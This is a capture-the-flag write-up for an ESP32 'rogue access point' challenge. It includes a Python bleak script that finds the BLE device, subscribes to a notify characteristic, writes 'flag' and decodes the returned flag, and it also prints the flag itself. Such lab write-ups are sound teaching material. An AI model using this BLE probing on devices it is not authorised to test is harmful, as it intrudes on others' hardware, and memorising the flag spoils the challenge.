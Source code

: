 # Write-Up 3xF1ltr4tor 


## Description:
```
    A strange access point with a web server is open, named: `PWNME_Free_APx`.
    I suspect it might be a rogue access point because I tried to log in, but I dont get my WiFi !
    It’s up to you to investigate and find out how it exfiltrates your data!
    This 3xF1ltr4tor is build on ESP32
    Search OTA :)
```
- **Difficulty:** easy
- **Author:** Eun0us


## Introduce 
Connect u to an Access Point PWNME_FREE_AP1
![alt text](img/free_ap.png)

So u gain access to an Access Point with a server web on port 80 (http://192.168.4.1:80)

Now u are on an little EvilTwin 
![alt text](img/post.png)
Look i post nothing happend :(

- Web Attack is not the way !
- No MITM, No NMAP  

## Search OTA

a basic esp32 provide WiFi **and** BLE 
So basicly just look on u r ble !
![alt text](img/BLE_OTA.png)

there is *PWNED_BLE_1*.

### Characteristic

UUID: 9abc0001-1234-5678-9abc-def012345678 / **READ** char -> ```key=flag```
UUID: 9abc0002-1234-5678-9abc-def012345678 / **WRITE** char -> if(input == key) -> **Notifiy
UUID: 9abc0003-1234-5678-9abc-def012345678 / **NOTIFY** char -> "Maybe return the flag ?"


## Exploit 

Step:
- scan devices 
- Connect to the *exfiltrator* device 
- Subscribe Notify *9abc0003-1234-5678-9abc-def012345678*
- Send 'flag' to *9abc0002-1234-5678-9abc-def012345678*
- Wait for response 

**exploit.py**
```py 
import asyncio
from bleak import BleakClient, BleakScanner
import base64

# BLE UUIDs
SERVICE_UUID = "9abc0000-1234-5678-9abc-def012345678"
CHAR_WRITE_UUID = "9abc0002-1234-5678-9abc-def012345678"
CHAR_NOTIFY_UUID = "9abc0003-1234-5678-9abc-def012345678"

received_flag = ""
exfiltrator = "Pwned_BLE_1" # U can search for any devices

# Notify Call Back Fonction
def notification_handler(sender, data):
    global received_flag
    print(f"[*] Notification : {data}")
    try:
        decoded = base64.b64decode(data).decode()
        print(f"[*] Decoded string : {decoded}")
        received_flag = decoded
    except Exception as e:
        print(f"[!] Erreur de décodage : {e}")

async def main():
    print("[*] Discover device BLE...")
    devices = await BleakScanner.discover(timeout=5.0)

    target = None
    for d in devices:
        if d.name and exfiltrator in d.name: 
            target = d
            break

    if not target:
        print(".")
        return

    print(f"[+] Connected to {target.name} ({target.address})...")
    async with BleakClient(target.address) as client:
        print("[✓] Connected.")

        # Subscribe NOTIFY
        await client.start_notify(CHAR_NOTIFY_UUID, notification_handler)
        print("[*] Abonné à la caractéristique notify.")

        # Send 'flag' to trigger the server
        await client.write_gatt_char(CHAR_WRITE_UUID, b"flag") # bytes("flag")
        print(f"[→] 'flag' send to {target.name}.")

        # Wait max 5 sec for Notification
        await asyncio.sleep(5)

        await client.stop_notify(CHAR_NOTIFY_UUID)

        if received_flag:
            print(f"\n [{received_flag}] \n")
        else:
            print("")

asyncio.run(main())
```

![alt text](img/exploit.png)

GG ! U flag *PWNME{3xF1ltr4t0r_s3rv_Bl3}*